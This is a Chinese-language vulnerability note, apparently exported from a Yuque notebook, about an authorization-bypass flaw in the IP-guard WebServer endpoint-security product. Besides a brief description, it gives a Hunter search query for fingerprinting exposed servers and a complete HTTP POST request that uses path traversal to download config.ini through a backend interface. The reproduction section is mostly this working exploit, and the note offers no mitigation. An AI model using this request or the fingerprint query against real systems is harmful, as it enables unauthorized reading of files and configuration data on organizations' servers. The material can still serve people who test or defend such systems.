 # IP-guard WebServer 权限绕过漏洞

# 一、漏洞简介
IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。由于IP-guard WebServer的权限验证机制中存在设计缺陷，远程攻击者能够规避安全验证，通过后端接口执行文件的任意读取和删除操作。

# 二、影响版本
+ IP-guard

# 三、资产测绘
+ hunter`web.icon=="210a3c89d4ab5effa18d6dd7a9627376"`
+ 特征

![1699584205812-20797c54-6a49-4a18-a038-f0d965e86b5f.png](./img/KINBd9d7qOP907Rm/1699584205812-20797c54-6a49-4a18-a038-f0d965e86b5f-935578.png)

# 四、漏洞复现
```plain
POST /ipg/appr/MApplyList/downloadFile_client/getdatarecord HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

path=..%2Fconfig.ini&filename=1&action=download&hidGuid=1v%0D%0A
```

![1713513510100-89d8adee-54fa-473d-9e4b-7066cb308103.png](./img/KINBd9d7qOP907Rm/1713513510100-89d8adee-54fa-473d-9e4b-7066cb308103-142878.png)



> 更新: 2024-04-19 16:02:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dlylco77v8avu2od>